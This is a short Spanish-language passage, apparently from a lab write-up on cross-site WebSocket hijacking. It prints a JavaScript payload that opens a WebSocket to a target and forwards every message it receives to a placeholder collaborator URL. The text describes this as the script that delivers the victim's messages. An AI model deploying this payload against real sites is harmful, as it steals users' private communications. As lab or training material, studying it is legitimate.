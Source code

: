 _Enviamos la petición al Repeater y podemos ver que podemos toda la comunicación._

```js
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

_Ahora tenemos este Script que es el que se encarga de facilitarnos los mensajes de la víctima._
